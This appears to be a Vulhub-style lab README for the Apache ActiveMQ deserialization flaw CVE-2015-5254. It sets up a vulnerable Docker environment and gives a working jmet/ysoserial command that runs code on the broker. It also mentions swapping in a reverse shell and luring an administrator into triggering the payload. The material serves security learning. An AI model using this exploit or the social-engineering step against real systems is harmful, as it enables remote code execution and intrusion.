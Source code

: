 # ActiveMQ Deserialization Vulnerability (CVE-2015-5254)

[中文版本(Chinese version)](README.zh-cn.md)

Apache ActiveMQ is an open source messaging middleware developed by the American Pachitea (Apache) Software Foundation that supports Java messaging services, clustering, Spring framework, and more.

Apache ActiveMQ version 5.x before the 5.13.0 security vulnerability, the vulnerability caused by the program does not limit the classes that can be serialized in the proxy. Remote attacker can make a special serialized Java Message Service (JMS) ObjectMessage objects exploit this vulnerability to execute arbitrary code.

Reference Links:

- https://www.blackhat.com/docs/us-16/materials/us-16-Kaiser-Pwning-Your-Java-Messaging-With-Deserialization-Vulnerabilities.pdf

## Vulnerability environment

Start the vulnerable environment:

```
docker-compose up -d
``` 

After running the environment, it will establish two ports on port 61616 and 8161. Port 61616 is the working port, and messages are delivered on this port. Port 8161 is the webpage management page port. Access ` http://your-Ip:8161`, You can see the network management page, but this vulnerability does not require a network theoretically.

## Exploit

The exploit process is as follows:

1. Generate serialized payload (u can using ysoserial)
2. send payload to port 61616
3. Access the web management page and read the serialization messages, then u can trigger vulnerability.

To exploit this environment we will use [jmet](https://github.com/matthiaskaiser/jmet) (Java Message Exploitation Tool). First download the jar file of jmet, and create folder called __`external`__ in the same directory (otherwise it may occur the error that the folder does not exist).

the jmet is to use ysoserial to generate Payload and send it (the jar comes with ysoserial, we don't no need to download it again), so we need to choose one that can be used in ysoserial as the gadget, such as ROME.

Execute:

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616
``` 

![](1.png)

At this point, a queue named event will be added to the target ActiveMQ. We can visit `http://your-ip:8161/admin/browse.jsp?JMSDestination=Event` to see all messages in this queue:

![](2.png)

Click this message to trigger the command execute, this time into the container `docker-compose exec activemq bash`, we can see /tmp/success has been successfully created, indicating exploit successful:

![](3.png)

Replace the command with a reverse shell statement and reuse it:

![](4.png)

It's worth noting that accessing messages through the web administration page and triggering the vulnerability requires administrator privileges. In the absence of password, we can induce administrator visit our link to trigger, or disguised as legitimate messages from other services need to wait for client access when triggered.
